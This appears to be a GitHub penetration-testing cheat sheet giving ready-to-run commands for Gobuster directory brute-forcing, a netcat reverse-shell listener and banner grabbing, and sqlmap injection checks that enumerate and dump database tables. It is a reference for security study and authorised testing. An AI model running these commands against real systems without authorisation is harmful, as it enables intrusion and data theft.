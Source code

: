 ## Dirbuster

![alt text](https://github.com/SattamInfosec/SattamInfosec/blob/main/Dirbuster.PNG)


## Gobuster 
```sh
gobuster dir -u http://example.com -w /usr/usr/wordlists/dirb/common.txt 

gobuster dir -u http://example.com -w /usr/usr/wordlists/dirb/common.txt -x php 
```


## Netcat
**Listening for reverse shell**
```sh
nc -nvlp 1234
```
**Banner Grabbing**
```sh
nc -nv 10.10.10.10 \<port\>
```
## SQLMap
#### Check if injection exists
```sh
sqlmap -r Post.req
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id          #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"      #POST Method
```
#### Get database if injection Exists
```sh
sqlmap -r login.req --dbs
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs    #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs #POST Method
```
#### Get Tables in a Database
```sh
sqlmap -r login.req -D dbname --tables 
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables        #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables #POST Method
```
#### Get data in a Database tables
```sh
sqlmap -r login.req -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump      #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump   #POST Method
```
## MYSQL
